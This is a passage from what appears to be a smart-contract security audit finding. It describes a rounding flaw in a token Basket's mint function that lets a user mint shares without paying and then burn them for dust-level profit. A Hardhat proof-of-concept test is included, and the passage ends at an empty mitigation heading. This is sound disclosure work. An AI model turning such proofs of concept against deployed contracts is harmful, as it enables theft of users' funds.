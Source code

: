 If a user is minting small amount of shares (like 1 - amount depends on baskets weights), the calculated amount of tokens to pull from the user can be less than 1, and therefore no tokens will be pulled. However the shares would still be minted. If the user does this a few times, he could then withdraw the total minted shares and end up with more tokens than he started with - although a miniscule amount.

#### [](#impact-3)Impact

User can end up with more tokens than he started with. However, I didn’t find a way for the user to get an amount to make this a feasible attack. He gets dust. However he can still get more than he deserves. If for some reason the basket weights grow in a substantial amount, this could give the user more tokens that he didn’t pay for.

#### [](#proof-of-concept-4)Proof of Concept

Add the following test to `Basket.test.js`. The user starts with 5e18 UNI, 1e18 COMP, 1e18 AAVE, and ends with 5e18+4, 1e18+4, 1e18+4.

    it("should give to user more than he deserves", async () => {
        await UNI.connect(owner).mint(ethers.BigNumber.from(UNI_WEIGHT).mul(1000000));
        await COMP.connect(owner).mint(ethers.BigNumber.from(COMP_WEIGHT).mul(1000000));
        await AAVE.connect(owner).mint(ethers.BigNumber.from(AAVE_WEIGHT).mul(1000000));
    
        await UNI.connect(owner).approve(basket.address, ethers.BigNumber.from(UNI_WEIGHT).mul(1000000));
        await COMP.connect(owner).approve(basket.address, ethers.BigNumber.from(COMP_WEIGHT).mul(1000000));
        await AAVE.connect(owner).approve(basket.address, ethers.BigNumber.from(AAVE_WEIGHT).mul(1000000));
    
        console.log("User balance before minting:");
        console.log("UNI balance: " + (await UNI.balanceOf(owner.address)).toString());
        console.log("COMP balance: " + (await COMP.balanceOf(owner.address)).toString());
        console.log("AAVE balance: " + (await AAVE.balanceOf(owner.address)).toString());
    
        
        await basket.connect(owner).mint(ethers.BigNumber.from(1).div(1));
        await basket.connect(owner).mint(ethers.BigNumber.from(1).div(1));
        await basket.connect(owner).mint(ethers.BigNumber.from(1).div(1));
        await basket.connect(owner).mint(ethers.BigNumber.from(1).div(1));
        await basket.connect(owner).mint(ethers.BigNumber.from(1).div(1));
    
        console.log("\nUser balance after minting 1 share 5 times:");
        console.log("UNI balance: " + (await UNI.balanceOf(owner.address)).toString());
        console.log("COMP balance: " + (await COMP.balanceOf(owner.address)).toString());
        console.log("AAVE balance: " + (await AAVE.balanceOf(owner.address)).toString());
    
        await basket.connect(owner).burn(await basket.balanceOf(owner.address));
        console.log("\nUser balance after burning all shares:");
        console.log("UNI balance: " + (await UNI.balanceOf(owner.address)).toString());
        console.log("COMP balance: " + (await COMP.balanceOf(owner.address)).toString());
        console.log("AAVE balance: " + (await AAVE.balanceOf(owner.address)).toString());
    });

#### [](#tools-used-2)Tools Used

Manual analysis, hardhat.

#### [](#recommended-mitigation-steps-5)Recommended Mitigation Steps
